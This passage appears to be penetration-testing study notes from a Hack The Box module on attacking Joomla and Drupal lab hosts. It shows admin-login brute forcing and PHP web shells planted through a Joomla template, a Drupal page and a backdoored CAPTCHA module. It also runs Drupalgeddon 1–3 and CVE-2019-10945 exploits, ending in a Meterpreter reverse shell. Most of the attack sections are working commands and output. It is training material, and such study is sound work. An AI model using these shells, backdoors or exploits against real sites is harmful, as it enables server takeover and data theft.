As you can see, it did not turn up much information aside from the possible version number. You can also try out [JoomlaScan](https://github.com/drego85/JoomlaScan), which is a Python tool inspired by the now-defunct OWASP [joomscan](https://github.com/OWASP/joomscan). JoomlaScan is a bit out-of-date and requires Python2.7 to run. You can get it running by first making sure some dependencies are installed. You can install Python2.7 using the following commands. Note that the version is already installed on the workstation and you can directly use the last command ```pyenv shell 2.7``` to use python2.7:

```bash
d41y@htb[/htb]$ curl https://pyenv.run | bash
d41y@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
d41y@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
d41y@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
d41y@htb[/htb]$ source ~/.bashrc
d41y@htb[/htb]$ pyenv install 2.7
d41y@htb[/htb]$ pyenv shell 2.7
```

Dependencies:

```bash
d41y@htb[/htb]$ python2.7 -m pip install urllib3
d41y@htb[/htb]$ python2.7 -m pip install certifi
d41y@htb[/htb]$ python2.7 -m pip install bs4
```

Runnig a scan:

```bash
d41y@htb[/htb]$ python2.7 joomlascan.py -u http://dev.inlanefreight.local

-------------------------------------------
      	     Joomla Scan                  
   Usage: python joomlascan.py <target>    
    Version 0.5beta - Database Entries 1233
         created by Andrea Draghetti       
-------------------------------------------
Robots file found: 	 	 > http://dev.inlanefreight.local/robots.txt
No Error Log found

Start scan...with 10 concurrent threads!
Component found: com_actionlogs	 > http://dev.inlanefreight.local/index.php?option=com_actionlogs
	 On the administrator components
Component found: com_admin	 > http://dev.inlanefreight.local/index.php?option=com_admin
	 On the administrator components
Component found: com_ajax	 > http://dev.inlanefreight.local/index.php?option=com_ajax
	 But possibly it is not active or protected
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_actionlogs/actionlogs.xml
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_admin/admin.xml
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_ajax/ajax.xml
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_actionlogs/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_actionlogs/
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_admin/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_admin/
Component found: com_banners	 > http://dev.inlanefreight.local/index.php?option=com_banners
	 But possibly it is not active or protected
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_ajax/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_ajax/
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_banners/banners.xml


<SNIP>
```

While not as valuable as droopescan, this tool can help you find accessible dirs and files and may help with fingerprinting installed extensions. At this point, you know that you are dealing with Joomla 3.9.4. The administrator login portal is located at ```http://dev.inlanefreight.local/administrator/index.php```. Attempts at user enumeration return a generic error message.

```bash
Warning
Username and password do not match or you do not have an account yet.
```

The default administrator account on Joomla installs is admin, but the password is set at install time, so the only way you can hope to get into the admin back-end is if the account is set with a very weak/common password and you can get in with some guesswork or light brute-forcing. You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```bash
d41y@htb[/htb]$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

And yout get a hit with the credentials ```admin```:```admin```. Someone has not been following best practices.

## Joomla - Attack

### Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, you may come across leaked credentials that you can use for your purpose. Once logged in, you can see many options available to you. For your purpose, you would like to add a snippet of PHP code to gain RCE. You can to this by customizing a template.



From here, you can click on "Templates" on the bottom left under "Configuration" to pull up the templates menu.

Next, you can click on a template name. This will bring you to the "Template: Customise" page.

Finally, you can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for your web shells to not make them easily accessible to a "drive-by" attacker during the assessment. You can also password protect and even limit access down to your source IP address. Also, you must always remember to clean up web shells as soon as you are done with them but still include the file name, file hash, and location in your final report to the client.

Choosing the error.php page:

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

Once this is in, click on "Save & Close" at the top and confirm code execution using cURL.

```bash
d41y@htb[/htb]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Leveraging Known Vulns

#### CVE-2019-10945

CVE-2019-10945 is a directory traversal and authenticated file deletion vulnerability. You can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vuln and list the contents of the webroot and other dirs. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). You can also use it to delete files. This could lead to access to sensitive files such as config files or scripts holding creds if you can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has proper permissions.

You run the script by specifying the ```--url```, ```--username```, ```--password```, and ```--dir``` flags. As pentesters, this would only be useful to you if the admin portal is not accessible from the outside since, armed with admin creds, you can gain RCE.

```bash
d41y@htb[/htb]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

## Drupal - Discovery & Enum

### Discover/Footprinting

A Drupal website can be identified in several ways, including by the header or footer message "Powered by Drupal", the standard Drupal loga, the presence of a CHANGELOG.txt file or README.txt file, via the page source, or clues in the robots.txt such as references to ```/node```.

```bash
d41y@htb[/htb]$ curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form ```/node/<nodeid>```.

Drupal supports three types of users by default:

1. **Administrator**: This user has complete control over the Drupal website.
2. **Authenticated User**: These users can log in to the website and perform operations such as adding and editing articles based on their permission.
3. **Anonymous**: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Enumeration

Once you have discovered a Drupal instance, you can do a combination of manual and tool-based enumeration to uncover the version, installed plugins, and more. Depending on the Drupal version and any hardening measures that have been put in place, you may need to try several ways to identify the version number. Newer installs of Drupal by default block access to the CHANGELOG.txt and README.txt files, so you may need to do further enumeration. Look at an example of enumerating the version number using the CHANGELOG.txt file. To do so, you can use cURL along with grep, sed, head, etc.

```bash
d41y@htb[/htb]$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

Here you have identified an older version of Drupal in use. Trying this against the latest Drupal version at the time of writing, you get a 404 response.

```bash
d41y@htb[/htb]$ curl -s http://drupal.inlanefreight.local/CHANGELOG.txt

<!DOCTYPE html><html><head><title>404 Not Found</title></head><body><h1>Not Found</h1><p>The requested URL "http://drupal.inlanefreight.local/CHANGELOG.txt" was not found on this server.</p></body></html>
```

There are several other things you could check in this instance to identify the version. Try a scan with droopescan. Droopescan has much more functionality for Drupal than it does for Joomla.

```bash
d41y@htb[/htb]$ droopescan scan drupal -u http://drupal.inlanefreight.local

[+] Plugins found:                                                              
    php http://drupal.inlanefreight.local/modules/php/
        http://drupal.inlanefreight.local/modules/php/LICENSE.txt

[+] No themes found.

[+] Possible version(s):
    8.9.0
    8.9.1

[+] Possible interesting urls found:
    Default admin - http://drupal.inlanefreight.local/user/login

[+] Scan finished (0:03:19.199526 elapsed)
```

The instance appears to be running version 8.9.1 of Drupal. At the time of writing, this was not the latest as it was released in June 2020. A quick search for Drupal-related vulns does not show anything apparent for this core version of Drupal.

## Drupal - Attack

### Leveraging the PHP Filter Module

In older versions of Drupal, it was possible to log in as an admin and enable the PHP filter module, which "Allows embedded PHP code/snippets to be evaluated".



From here, you could tick the check box next to the module and scroll down to "Save Configuration". Next, you could go to "Content" -> "Add content" -> create a "Basic page".



You can now create a page with a malicious PHP snippet such as the one below. You named the parameter with an md5 hash instead of the common ```cmd``` to get in the practice of not potentially leaving a door open to an attacker during your assessment.

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

You also want to make sure to set "Text format" drop-down to "PHP code". After clicking "save", you will be redirected to the new page. Once saved, you can either request execute commands in the browser by appending ```?dcfdd5e021a869fcc6dfaef8bf31377e=id``` to the end of the URl to run the ```id``` command or use cURL on the command line. From here, you could use a bash one-liner to obtain reverse shell access.

```bash
d41y@htb[/htb]$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, you would have to install the module yourself. Since you would be changing and adding something to the client's Drupal instance, you may want to check with them first. You would start by downloading the most recent version of the module from the Drupal website.

```bash
d41y@htb[/htb]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded got to "Administration" -> "Reports" -> "Available updates".

From here, click on "Browse", select the file from the directory you downloaded it to, and then click "Install".

Once the module is installed, you can click on "Content" and create a new basic page. Be sure to select "PHP code" from the "Text format" dropdown.

### Uploading a Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website.

Download the archive (_CAPTCHA module as an example_) and extract its contents:

```bash
d41y@htb[/htb]$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
d41y@htb[/htb]$ tar xvf captcha-8.x-1.2.tar.gz
```

Create a PHP web shell with the contents:

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

Next, you need to create a .htaccess file to give yourself access to the folder. This is necessary as Drupal denies direct acces to the ```/modules``` folder.

```bash
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

The configuration above will apply rules for the ```/``` folder when you request a file in ```/modules```. Copy both of these files to the captcha folder and create an archive.

```bash
d41y@htb[/htb]$ mv shell.php .htaccess captcha
d41y@htb[/htb]$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

Assuming you have administrative access to the website, click on "Manage" and then "Extend" on the sidebar. Next, click on the "+ Install new module" button, and you will be taken to the install page. Browse to the backdoored Captcha archive and click "Install".

Once the installation succeeds, browse to the ```/modules/captcha/shell.php``` to execute commands.

```bash
d41y@htb[/htb]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Leveraging Known Vulns

#### Drupalgeddon

This flaw, can be exploited by leveraging a pre-authenticated SQLi which can be used to upload malicious code or add an admin user.

Running the [script](https://www.exploit-db.com/exploits/34992) and see if you get a new admin user:

```bash
d41y@htb[/htb]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

#### Drupalgeddon 2

You can use this [script](https://www.exploit-db.com/exploits/44448) to confirm this vuln.

```bash
d41y@htb[/htb]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```

You can check quickyl with cURL and see that the hello.txt file was indeed uploaded.

```bash
d41y@htb[/htb]$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

Now modify the script to gain RCE by uploading a malicious PHP file.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```bash
d41y@htb[/htb]$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

Now, replace the ```echo``` command in the exploit script with a command to write out your malicious PHP script.

```bash
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

Next, run the modified exloit script to upload your malicious PHP file.

```bash
d41y@htb[/htb]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

Finally, you can confirm RCE using cURL.

```bash
d41y@htb[/htb]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
``` 

#### Drupalgeddon 3

... is an authenticated RCE vuln that affects multiple versions of Drupal core. It requires a user to have the ability to delete a node. You can exploit this using Metasploit, but you must first log in and obtain a valid session cookie.

Once you have the session cookie, you can set up the exploit module as follows:

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```

If successful, you will obtain a reverse shell on the target host.

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```